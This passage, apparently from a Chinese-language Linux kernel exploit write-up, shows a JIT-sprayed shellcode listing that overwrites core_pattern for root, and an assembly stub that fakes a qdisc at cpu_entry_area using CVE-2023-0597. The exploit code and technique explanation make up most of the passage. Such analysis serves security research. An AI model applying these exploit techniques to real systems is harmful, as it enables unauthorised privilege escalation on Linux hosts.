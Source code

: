 ```bash
   0xffffffffcc001edb:  nop
   0xffffffffcc001edc:  nop
   0xffffffffcc001edd:  cmp    al,0xb8
   0xffffffffcc001edf:  xor    esi,esi
   0xffffffffcc001ee1:  nop
   0xffffffffcc001ee2:  cmp    al,0xb8
   0xffffffffcc001ee4:  mov    sil,0x0
   0xffffffffcc001ee7:  cmp    al,0xb8
   0xffffffffcc001ee9:  shl    esi,0x8
   0xffffffffcc001eec:  cmp    al,0xb8
   0xffffffffcc001eee:  mov    sil,0x5e
   0xffffffffcc001ef1:  cmp    al,0xb8
   0xffffffffcc001ef3:  shl    esi,0x8
   0xffffffffcc001ef6:  cmp    al,0xb8
   0xffffffffcc001ef8:  mov    sil,0xa1
   0xffffffffcc001efb:  cmp    al,0xb8
   0xffffffffcc001efd:  shl    esi,0x8
   0xffffffffcc001f00:  cmp    al,0xb8
   0xffffffffcc001f02:  mov    sil,0xc0
   0xffffffffcc001f05:  cmp    al,0xb8
   0xffffffffcc001f07:  sub    rax,rsi
   0xffffffffcc001f0a:  cmp    al,0xb8
   0xffffffffcc001f0c:  xor    edi,edi
   0xffffffffcc001f0e:  nop
   0xffffffffcc001f0f:  cmp    al,0xb8
   0xffffffffcc001f11:  mov    dil,0x70
   0xffffffffcc001f14:  cmp    al,0xb8
   0xffffffffcc001f16:  shl    edi,0x14
   0xffffffffcc001f19:  cmp    al,0xb8
   0xffffffffcc001f1b:  call   rax
```

  shellcode 的功能大概是：

1.  通过 rdmsr 指令获取内核地址
2.  然后利用 copy\_from\_user 修改 core\_pattern

  然后用户态触发 `core_pattern`​ 提权。

  ‍

### 在内核固定地址伪造 qdisc

  作者利用 CVE-2023-0597 实现在 cpu\_entry\_area 处布置数据伪造 cl->qdisc->enqueue：

```bash
foo:
    mov rsp,rdi
    pop r15
    pop r14
    pop r13
    pop r12
    pop rbp
    pop rbx
    pop r11
    pop r10
    pop r9
    pop r8
    pop rax
    pop rcx
    pop rdx
    pop rsi
    pop rdi
    div qword [0x1234000] ; trigger div 0 exception
```
